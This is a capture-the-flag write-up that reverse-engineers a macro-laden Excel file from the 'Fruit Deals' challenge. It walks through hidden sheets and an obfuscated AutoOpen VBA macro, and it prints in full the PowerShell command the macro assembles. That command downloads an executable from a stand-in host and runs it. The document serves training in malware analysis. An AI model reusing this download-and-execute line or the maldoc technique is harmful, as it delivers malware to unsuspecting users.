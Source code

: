 # Fruit Deals - Reverse Engineering Writeup

## Description:
![](screenshots/problem.png)
I found a excel sheet with some great deals thanks to some random guy on the internet! Who doesn't trust random people off the internet, especially from email

The flag is the file name that was attempted to be downloaded, wrapped in utflag{} Note: the file imitates malicious behavior. its not malicious, but it will be flagged by AV. you probably shouldn't just run it though.

By Samintell (@samintell on discord)

## Solution:
### Step 1:

On the initial load of the spreadsheet, It warned me saying that it was unable to find deals and the popup to enable macros

  

After opening up VB Editor, the first thing I noticed was the Sheets listed on the editor didn't match what was being shown on the main UI 

![](screenshots/Step1.1.png)
![](screenshots/Step1.2.png)

After Enabling the hidden sheets we are greeted with this awful mess.

![](screenshots/Step1.3.png)

In summary, the script appears to be dynamically constructing a command based on values in the Excel spreadsheet, executing the command, and then opening a specified YouTube link in the web browser which is most likely designed to move the end users' attention away from what the script is doing. 

Upon examining the code within the AutoOpen Macro, it initializes several variables and scans different cells within Sheet 2 for particular values. 
Depending on these values, specific strings are appended with corresponding values, ultimately forming a command ('f') by manipulating strings.

![](screenshots/Step1.44.png)

### Step 2:

![](screenshots/Step2.png)

### Step 3:

To find out what the script is doing in the background, I briefly looked at what is being appended and saw some strings that stand out.

![](screenshots/Step3.1.png)
![](screenshots/Step3.2.png)

### Step 4:

To read the output, just need to add a breakpoint on the line 
```
f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + e5b138e644d624905ca8d47c3b8a2cf41 + tfd753b886f3bd1f6da1a84488dee93f9 + z92ea38976d53e8b557cd5bbc2cd3e0f8 + xc6fd40b407cb3aac0d068f54af14362e
```
![](screenshots/Step4.png)
![](screenshots/Step4.1.png)

We can see the command that is to be executed and the flag is appended to the $CNTA variable.

### Executed Command: 
```powershell 
f = "poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';
$CNTA = 'banANA-Hakrz09182afd4';
$jri=$env:public+''+$CNTA+'.exe';
try{
  $oaK.DownloadFile($OrA, $jri);
  Invoke-Item $jri;
  break;
} catch {} ""
```

## Flag: utflag{banANA-Hakrz09182afd4.exe}
